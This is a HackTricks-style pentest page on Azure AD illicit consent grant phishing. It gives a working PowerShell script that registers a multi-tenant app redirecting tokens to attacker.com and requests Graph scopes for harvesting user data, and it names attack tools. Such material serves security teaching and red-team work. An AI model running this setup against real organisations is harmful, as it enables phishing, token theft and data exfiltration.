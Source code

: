 # Az - Illicit Consent Grant

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## OAuth App Phishing

**Azure Applications** ask for permissions to access the **user data** (basic info, but also access to documents, send emails...).\
If **allowed**, a normal user can grant consent only for **"Low Impact" permissions**. In **all other** cases, **admin consent is required**.\
`GA`, `ApplicationAdministrator`, `CloudApplication` `Administrator` and a custom role including `permission to grant permissions to applications` can provide tenant-wide consent.

Only permissions that **doesn't require admin consent** are classified as **low impact**. These are permissions required for **basic sign-in are openid, profile, email, User.Read and offline\_access**. If an **organization** **allows** user consent for **all apps**, an employee can grant consent to an app to **read the above from their profile**.

<figure><img src="../../../.gitbook/assets/image (3) (2) (1).png" alt=""><figcaption></figcaption></figure>

Therefore, an attacker could prepare a **malicious App** and with a **phishing**, make the user **accept the App and steal his data**.

### Check if users allowed to consent

The following PowerShell command is used to check the consent configuration for users in Azure Active Directory (Azure AD) regarding their ability to consent to applications:

```powershell
PS AzureADPreview> (GetAzureADMSAuthorizationPolicy).PermissionGrantPolicyIdsAssignedToDefaultUserRole
```

* **Disable user consent**: This setting prohibits users from granting permissions to applications. No user consent to applications is allowed.
* **Users can consent to apps from verified publishers or your organization, but only for permissions you select**: This setting permits all users to consent only to applications that are published by a verified publisher and applications registered in your own tenant. It adds a layer of control by allowing consent only for specific permissions.
* **Users can consent to all apps**: This setting is more permissive and allows all users to consent to any permissions for applications, as long as those permissions do not require administrative consent.
* **Custom app consent policy**: This setting indicates that a custom policy is in place, which can be tailored to specific organizational requirements and may involve a combination of restrictions based on the app publisher, the permissions the app requests, and other factors.


## **Understanding Illicit Consent Grant Attack**

In an illicit consent grant attack, attackers trick end users into granting permissions to a malicious application registered with Azure. This is done by making the application appear legitimate, leading victims to unknowingly click an "Accept" button. As a result, Azure AD issues a token to the attacker's site, allowing them to access and manipulate the victim's data, such as reading or sending emails and accessing files, without needing an organizational account.

## **Attack Flow Overview**

The attack involves several steps targeting a generic company. Here's how it might unfold:

1. **Domain Registration and Application Hosting**: The attacker registers a domain resembling a trustworthy site, for example, "safedomainlogin.com". Under this domain, a subdomain is created (e.g., "companyname.safedomainlogin.com") to host an application designed to capture authorization codes and request access tokens.

2. **Application Registration in Azure AD**: The attacker then registers a Multi-Tenant Application in their Azure AD Tenant, naming it after the target company to appear legitimate. They configure the application's Redirect URL to point to the subdomain hosting the malicious application.

3. **Setting Up Permissions**: The attacker sets up the application with various API permissions (e.g., `Mail.Read`, `Notes.Read.All`, `Files.ReadWrite.All`, `User.ReadBasic.All`, `User.Read`). These permissions, once granted by the user, allow the attacker to extract sensitive information on behalf of the user.

4. **Distributing Malicious Links**: The attacker crafts a link containing the client id of the malicious application and shares it with targeted users, tricking them into granting consent.

## **Utilizing Tools for the Attack**

The attack can be facilitated using tools like [**365-Stealer**](https://github.com/AlteredSecurity/365-Stealer).

### Pre-Attack Preparation:
If the attacker has some level of access to a user in the victim organization, they might check if the organization's policy allows the user to accept apps:

```powershell
Import-Module .\AzureADPreview\AzureADPreview.psd1
$passwd = ConvertTo-SecureString "Password!" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential ("generic@corp.onmicrosoft.com", $passwd)
Connect-AzureAD -Credential $creds
(Get-AzureADMSAuthorizationPolicy).PermissionGrantPolicyIdsAssignedToDefaultUserRole
# Check if "ManagePermissionGrantsForSelf.microsoft-user-default-legacy" is present, indicating permission to accept apps.
```

For executing the attack, the attacker would need to create a **new App in their Azure Tenant** (in App registrations), configured with the permissions:

<figure><img src="../../../.gitbook/assets/image (2) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

`User.ReadBasic.All` is inside `Microsoft Graph` in `Delegated permissions`. (Application permissions will always need extra approval).

* `User.ReadBasic.All` is the permission that will allow you to **read information of all the users** in the organization if granted.
* Remember that only `GA`, `ApplicationAdministrator`, `CloudApplication` `Administrator` and a custom role including `permission to grant permissions to applications` can provide tenant-wide consent. So, you should **phish a user with one of those roles** if you want him to approve an **App that requires admin consent**.

You could also create an App via cli with:

{% code overflow="wrap" %}
```bash
# Generate Application
New-AzureADApplication -DisplayName "MyApp"  -ReplyUrls @("https://attacker.com", "https://attacker.com/gettoken") -Oauth2AllowImplicitFlow $true -AvailableToOtherTenants $true

# Generate Secret
New-AzureADApplicationPasswordCredential -ObjectId f76ebd35-xxxx-xxxx-xxxx-xxxxxxxxxxxx -CustomKeyIdentifier "MyAppSecret" -StartDate (Get-Date) -EndDate (Get-Date).AddYears(3)

# Generate an application with the permissions
$objectid=New-AzureADApplication -DisplayName "AppName"  -ReplyUrls @("https://example.com/login/authorized") -Oauth2AllowImplicitFlow $true -AvailableToOtherTenants $true | select-object ObjectId
New-AzureADApplicationPasswordCredential -ObjectId $objectid.ObjectId -CustomKeyIdentifier "secret" -StartDate (Get-Date) -EndDate (Get-Date).AddYears(3)

$AppObjectID = $objectid.ObjectId # object id in AD
$app = Get-AzureADApplication -ObjectId $AppObjectID
$AADAccess = $app.RequiredResourceAccess | Where-Object {$_.ResourceAppId -eq "00000003-0000-0000-c000-000000000000"}  # "00000003-0000-0000-c000-000000000000" represents Graph API
if($AADAccess -eq $null) {
  $AADAccess = New-Object Microsoft.Open.AzureAD.Model.RequiredResourceAccess
  $AADAccess.ResourceAppId = "00000003-0000-0000-c000-000000000000"

  $Access = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
  $Access.Type = "Scope"
  $Access.Id = "14dad69e-099b-42c9-810b-d002981feec1"
  $AADAccess.ResourceAccess = @()
  $AADAccess.ResourceAccess.Add($Access)

  $Access2 = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
  $Access2.Type = "Scope"
  $Access2.Id = "e1fe6dd8-ba31-4d61-89e7-88639da4683d"
  $AADAccess.ResourceAccess.Add($Access2)

  $Access3 = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
  $Access3.Type = "Scope"
  $Access3.Id = "df85f4d6-205c-4ac5-a5ea-6bf408dba283"
  $AADAccess.ResourceAccess.Add($Access3)

  $Access4 = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
  $Access4.Type = "Scope"
  $Access4.Id = "10465720-29dd-4523-a11a-6a75c743c9d9"
  $AADAccess.ResourceAccess.Add($Access4)

  $app.RequiredResourceAccess.Add($AADAccess)
} else {
  $Access = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
  $Access.Type = "Scope"
  $Access.Id = "14dad69e-099b-42c9-810b-d002981feec1"
  $AADAccess.ResourceAccess = @()
  $AADAccess.ResourceAccess.Add($Access)

  $Access2 = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
  $Access2.Type = "Scope"
  $Access2.Id = "e1fe6dd8-ba31-4d61-89e7-88639da4683d"
  $AADAccess.ResourceAccess.Add($Access2)

  $Access3 = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
  $Access3.Type = "Scope"
  $Access3.Id = "df85f4d6-205c-4ac5-a5ea-6bf408dba283"
  $AADAccess.ResourceAccess.Add($Access3)

  $Access4 = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
  $Access4.Type = "Scope"
  $Access4.Id = "10465720-29dd-4523-a11a-6a75c743c9d9"
  $AADAccess.ResourceAccess.Add($Access4)
}

Set-AzureADApplication -ObjectId $AppObjectID -RequiredResourceAccess $app.RequiredResourceAccess
Get-AzureADApplication -ObjectId $objectid.ObjectId | select-object appid
```
{% endcode %}

Check [https://www.alteredsecurity.com/post/introduction-to-365-stealer](https://www.alteredsecurity.com/post/introduction-to-365-stealer) to learn how to configure it.

{% hint style="warning" %}
Note that the obtained **access token** will be for the **graph endpoint** with the scopes: `User.Read` and `User.ReadBasic.All` (the requested permissions). You won't be able to performs other actions (but those are enough to **download info about all the users** in the org).
{% endhint %}

## [O365-Attack-Toolkit](https://github.com/mdsecactivebreach/o365-attack-toolkit)

You could also use this tool to perform this attack.

## Post-Exploitation

Once you got access to the user you can do things such as stealing sensitive documents and even uploading backdoored document files.

## References

* [https://www.alteredsecurity.com/post/introduction-to-365-stealer](https://www.alteredsecurity.com/post/introduction-to-365-stealer)
* [https://swisskyrepo.github.io/InternalAllTheThings/cloud/azure/azure-phishing/](https://swisskyrepo.github.io/InternalAllTheThings/cloud/azure/azure-phishing/)

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
